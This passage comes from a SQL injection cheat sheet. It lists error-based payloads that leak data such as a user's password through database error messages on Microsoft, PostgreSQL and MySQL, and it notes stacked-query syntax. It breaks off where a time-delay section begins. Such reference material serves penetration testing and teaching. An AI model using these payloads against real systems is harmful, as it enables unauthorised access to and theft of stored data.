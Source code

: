 You can potentially elicit error messages that leak sensitive data returned by your malicious query.

**Microsoft:**
```sql
SELECT 'foo' WHERE 1 = (SELECT 'secret')
```
*Error:* Conversion failed when converting the varchar value 'secret' to data type int.

**PostgreSQL:**
```sql
SELECT CAST((SELECT password FROM users LIMIT 1) AS int)
```
*Error:* invalid input syntax for integer: "secret"

**MySQL:**
```sql
SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))
```
*Error:* XPATH syntax error: '\secret'

## Batched (or Stacked) Queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

**Oracle:**
```sql
-- Does not support batched queries.
```

**Microsoft:**
```sql
QUERY-1-HERE; QUERY-2-HERE
QUERY-1-HERE QUERY-2-HERE
```

**PostgreSQL:**
```sql
QUERY-1-HERE; QUERY-2-HERE
```

**MySQL:**
```sql
QUERY-1-HERE; QUERY-2-HERE
```

*Note:* With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

## Time Delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.
